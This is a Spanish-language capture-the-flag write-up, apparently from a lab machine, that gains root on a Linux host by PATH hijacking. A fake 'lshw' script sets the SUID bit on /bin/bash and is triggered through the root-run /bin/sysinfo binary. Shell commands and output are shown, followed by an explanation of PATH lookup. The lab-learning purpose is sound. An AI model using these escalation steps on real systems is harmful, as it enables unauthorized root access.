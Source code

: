 ```console
/0/1/3                         memory     512KiB L2 cache                                                                                                                                        
/0/2                           processor  AMD EPYC 7401P 24-Core Processor 
```
Podemos observar que la función del binario es ejecutar comandos para mostrar información del hardware de la máquina y uno de los comandos que identifique fácilmente es  `lshw`. por lo que usaremos ese para escalar a root.

## Shell como root.

Lo que haremos será lo siguiente:

* Nos dirigimos a `/dev/shm` y crearemos un archivo con el mismo nombre.
* Dentro de este escribimos el comando `chmod u+s /bin/bash` par agregar un bit SUID a la /bin/bash.
* Le asignamos permisos de ejecución.
* Modificamos la variable de entorno PATH para que busque el archivo en `/dev/shm` .
* Por último ejecutamos el `/bin/sysinfo`.

Lo que resultara que nosotros podamos ejecutar una bash como el usuario root.

```console
theseus@ubuntu:/dev/shm$ cat lshw
#!/bin/bash
chmod u+s /bin/bash
theseus@ubuntu:/dev/shm$ chmod +x lshw
theseus@ubuntu:/dev/shm$ export PATH=/dev/shm:$PATH
theseus@ubuntu:/dev/shm$ /bin/sysinfo
theseus@ubuntu:/dev/shm$ /bin/bash -p
bash-4.4# id
uid=1000(theseus) gid=1000(theseus) euid=0(root) groups=1000(theseus),100(users)
bash-4.4# whoami
root
```
**¡¡Somos Root!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

**¿Porque ocurre esto?**

Esto ocurre debido a como funciona linux, cuando nosotros ejecutamos un comando poniendo como ejemplo `whoami` lo que hace linux es buscar en la variable de entorno `PATH` donde se encuentra ubicado el binario `whoami`.

**PATH:** /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

**Ruta absoluta:** /usr/bin/whoami

Entonces primero va a **/usr/local/sbin** si no lo encuentra va a **/usr/local/bin** hasta llegar a la ruta donde se encuentra en binario `whoami` en este caso **/usr/bin/** entonces lo ejecuta.

Entonces fue por eso que nosotros modificamos la variable de entorno PATH para que ejecutara nuestro archivo como el usuario root ya que como vimos anteriormente **/bin/sysinfo** se ejecutaba como root por ende nuestros comandos dentro de `lshw` se ejecutarán como root.


